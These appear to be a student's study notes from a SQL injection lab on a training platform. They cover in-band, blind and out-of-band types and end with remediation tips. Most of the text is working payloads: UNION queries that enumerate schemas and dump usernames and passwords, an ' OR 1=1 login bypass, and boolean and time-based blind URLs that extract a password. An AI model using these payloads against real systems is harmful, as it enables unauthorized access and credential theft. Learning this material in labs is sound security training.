 # SQL injection

1. in-band
2. blind
3. out-of-band

In-band:
- exploit and return data from database

Error based SQL injection:
- to obtain information
- used to enumurate a whole database

Union based:
- utilized UNION along with Select

1 union select 1,2,3
0 union select 1,2,3

0 union select 1,2,database() - sqli-one

> 0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'

> https://website.thm/article?id=0 union select 1,2,group_concat(column_name) from information_schema.columns where table_name = 'staff_users';
> https://website.thm/article?id=0 union select 1,2,group_concat(username,':',password SEPARATOR '<br>') from staff_users;


**Blind**
- ' OR 1=1;--   -> enter this in the password field

**blind - boolean based**
- https://website.thm/checkuser?username=admin
- {taken: true}

> https://website.thm/checkuser?username=admin123' union select 1,2,3 where database() like 's%';--
> https://website.thm/checkuser?username=admin123' union select 1,2,3 from information_schema.tables where table_schema = 'sqli_three' and table_name like '%';--
> https://website.thm/checkuser?username=admin123' union select 1,2,3 from information_schema.tables where table_schema = 'sqli_three' and table_name like 'users';--
>
> https://website.thm/checkuser?username=admin123' union select 1,2,3 from information_schema.COLUMNS where table_schema = 'sqli_three' and table_name = 'users' and column_name like '%';--
> https://website.thm/checkuser?username=admin123' union select 1,2,3 from information_schema.COLUMNS where table_schema = 'sqli_three' and table_name = 'users' and column_name like 'id';--
>
> https://website.thm/checkuser?username=admin123' union select 1,2,3 from information_schema.COLUMNS where table_schema = 'sqli_three' and table_name = 'users' and column_name like 'u%' and column_name !='id';--
>
> https://website.thm/checkuser?username=admin123' union select 1,2,3 from users where username like 'a%';--
> admin
>
> https://website.thm/checkuser?username=admin123' union select 1,2,3 from users where username = 'admin' and password like 'a%';--
> https://website.thm/checkuser?username=admin123' union select 1,2,3 from users where username = 'admin' and password like '3%';--    -> true



**Blind SQLi - time based**
- using SLEEP(x) method in UNION statement
  > https://website.thm/analytics?referrer=admin123' union select sleep(5);--
  > https://website.thm/analytics?referrer=admin123' union select sleep(5),2 where database() = 'sqli_four';--   sucecss
  > https://website.thm/analytics?referrer=admin123' union select sleep(5),2 from users where username like 'admin';--
  > https://website.thm/analytics?referrer=admin123' union select sleep(5),2 from users where username = 'admin' and password = '4961';--  - success
  

**out of band**
- 2 channel requests
- http/dns requests

**Remediation**
- prepared statements with parametarized queires
- input validation - allow list , deny list , strings replacing methods, fileters
- escaping user input - characters such as ' " $\ 
